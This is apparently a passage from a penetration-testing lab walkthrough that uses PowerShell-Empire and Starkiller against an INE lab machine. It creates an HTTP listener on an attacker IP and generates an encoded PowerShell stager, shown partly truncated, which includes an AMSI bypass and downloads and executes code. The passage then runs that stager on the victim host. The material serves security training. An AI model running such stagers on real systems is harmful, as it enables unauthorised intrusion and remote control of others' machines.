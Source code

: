 ```
[+] Plugin csharpserver ran successfully!
[+] empireadmin connected to socketio
```

<span style="color: #2196f3;">Starkiller (Client)</span>.

_Launching Starkiller, the GUI client for PowerShell-Empire._

`sudo starkiller`

Here we need to log in with our personal user account because PowerShell-Empire supports multiple users.

_Creating an HTTP listener on the attacker's machine._

`Listeners` > `Create` > `Type: http`, `Host: 10.10.23.3`, `Port: 8888`, `Submit`

_Confirming that the listener has been successfully created and is active._

`Listeners`:

| ID | Name | Module | Listener Category | Created At                               | Enabled |
|----|------|--------|-------------------|------------------------------------------|---------|
| 1  | http | http   | client_server     | 2024-08-06 22:07:20 IST (39 seconds ago) | True    |

_Generating a stager payload to establish a connection back to the HTTP listener._

`Stagers` > `Type: multi/launcher`, `Listener: http`, `Submit`

`Stagers` > `multi/launcher` (right-click) > `Copy to Clipboard`
```
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAcwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAG8ATgAuAE0AYQBKAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAEUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAEUAbQBiAGwAeQAuAEcARQB0AFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBGAC4ARwBFAFQARgBp

...

gBEAE8AVwBuAGwAbwBBAGQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQBWAD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAEEAdABBAC4ATABFAE4ARwBUAGgAXQA7AC0ASgBPAGkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABEAEEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Executing the generated stager payload on the target machine to establish a connection._

```
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAcwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAG8ATgAuAE0AYQBKAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAEUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAEUAbQBiAGwAeQAuAEcARQB0AFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBGAC4ARwBFAFQARgBp

...

gBEAE8AVwBuAGwAbwBBAGQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQBWAD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAEEAdABBAC4ATABFAE4ARwBUAGgAXQA7AC0ASgBPAGkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABEAEEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```
